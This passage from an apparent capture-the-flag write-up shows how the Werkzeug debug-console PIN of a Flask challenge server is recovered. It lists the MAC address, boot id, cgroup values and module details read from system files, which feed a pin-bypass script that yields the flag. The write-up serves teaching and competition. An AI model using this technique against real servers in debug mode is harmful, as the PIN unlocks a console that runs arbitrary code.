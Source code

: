 
/sys/class/net/eth0/address

```
>>> "".join("02:42:ac:11:00:02".split(":"))
'0242ac110002'
>>> print(0x0242ac110002)
2485377892354
```

/proc/sys/kernel/random/boot_id

```
d2ad6c68-ebf1-4090-85ff-60e0b7c2fb86
```

/proc/self/cgroup

```
12:blkio:/docker/97cb5dd0fb03213072481c8a621847f1a310238d2db0de37ac81c8116a509c3a
11:cpuset:/docker/97cb5dd0fb03213072481c8a621847f1a310238d2db0de37ac81c8116a509c3a
10:freezer:/docker/97cb5dd0fb03213072481c8a621847f1a310238d2db0de37ac81c8116a509c3a
```

machine id => 

```
d2ad6c68-ebf1-4090-85ff-60e0b7c2fb8697cb5dd0fb03213072481c8a621847f1a310238d2db0de37ac81c8116a509c3a
```

/etc/machine_id can be ignored as this file doesn't exist on our challenge server.

```python
probably_public_bits = [
    'root',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.11/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892354',# str(uuid.getnode()),  /sys/class/net/ens33/address 
    # Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
    'd2ad6c68-ebf1-4090-85ff-60e0b7c2fb8697cb5dd0fb03213072481c8a621847f1a310238d2db0de37ac81c8116a509c3a'
]
```

Now run the script werkzeug-pin-bypass.py and you will have the pin


You can see here that they are indeed same :)
![image](https://user-images.githubusercontent.com/31372554/254167983-a0a1401b-cf80-4e17-b17f-94f8f1cb1635.png)


0xbla did all this scripting work in no time so thanks to him we were able to complete this challenge in no time.


And at last we had the flag

![image](https://github.com/Sudistark/CTF-Writeups/assets/31372554/02eb4516-ef05-41ea-b9fc-2e36755ddd85)

